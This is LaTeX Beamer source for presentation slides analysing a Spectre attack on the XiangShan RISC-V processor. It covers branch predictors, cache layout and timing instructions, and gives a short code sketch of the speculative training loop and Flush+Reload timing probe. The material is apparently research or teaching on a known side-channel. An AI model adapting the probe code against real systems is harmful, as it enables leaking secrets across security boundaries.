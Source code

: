 \documentclass{beamer}
\begin{document}
\begin{frame}
    \frametitle{Spectre}
    \framesubtitle{Spectre on XiangShan}
    XiangShan Branch Predictor
    \begin{center}
        \includegraphics[width=0.7\textwidth]{Figure/xs-branch-predictor.png}
    \end{center}
\end{frame}

\begin{frame}
    \frametitle{Spectre}
    \framesubtitle{Spectre on XiangShan}
    \begin{itemize}
        \item Branch predictors: $\mu$BTB, BTB, TAGE, RAS and loop predictor\newline
        TAGE + loop predictor $\rightarrow$ disable the original attack
        \item Speculative Execution\newline
        Out-of-order, multiple issue $\rightarrow$ Spectre-vulnerable
        \item Cache: L1 \$ L2 ways, 256 sets, 64B each line $\rightarrow$ enough to encode a character
        \item Timer and cache manipulation\newline
        \texttt{rdcycle} cycle-level timer, \texttt{fence.i} memory barrier
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Spectre}
    \framesubtitle{Spectre on XiangShan}
    Spectre on Nanhu
    \begin{lstlisting}
    for (int i = 0; i <= ENTRY_SIZE; ++i) {
        int x = i < ENTRY_SIZE ? i : secret[i++]
        \\ optimize branch to jump table
        flush_cache(array2);
        victim_function(x);
    }
    
    for (int i = 0; i < 256; i++) {
        addr = &array2[i * CACHELINE_SIZE];
        time1 = rdcycle(); /* READ TIMER */
        junk = * addr; /* MEMORY ACCESS TO TIME */
        time2 = rdcycle() - time1; 
        /* READ TIMER & COMPUTE ELAPSED TIME */
        if (time2 <= CACHE_HIT_THRESHOLD)
            results[i]++;
    }
    \end{lstlisting}
\end{frame}
\end{document}
